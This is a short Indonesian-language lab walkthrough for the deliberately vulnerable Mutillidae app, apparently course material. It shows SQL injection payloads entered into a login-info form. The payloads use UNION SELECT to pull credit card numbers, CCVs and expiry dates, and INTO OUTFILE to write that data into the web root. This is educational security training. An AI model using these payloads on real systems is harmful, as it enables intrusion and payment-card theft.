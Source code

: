 Lesson 9
--------
- **Step 1**    : Ketika `mysql` pada metsploit, lalu `use owasp10;` lalu ketik `desc accounts;` dan `desc credit_cards;`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/1.JPG)
- **Step 2**    : Lalu ketik `select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;` dan `select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';` juga `\! cat /tmp/CCN.csv`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/3.JPG)
- **Step 3**    : Lalu ubah mozilla pada Kali, lalu buka web mutillidae dan pilih OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info. Lalu ubah size pada kolom **Name** dari **20** menjadi **100** dan isi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --` dan jangan lupa berikan spasi setelah `--` lalu klik `View Account Details`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/4.JPG)
- Lalu akan muncul hasilnya seperti berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/5.JPG)
- **Step 4**    : Lalu ubah size pada kolom **Name** dari **20** menjadi **100** dan isi dengan `' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' --` dan jangan lupa berikan spasi setelah `--` lalu klik `View Account Details`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/6.JPG)
- Lalu akan muncul
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/7.JPG)
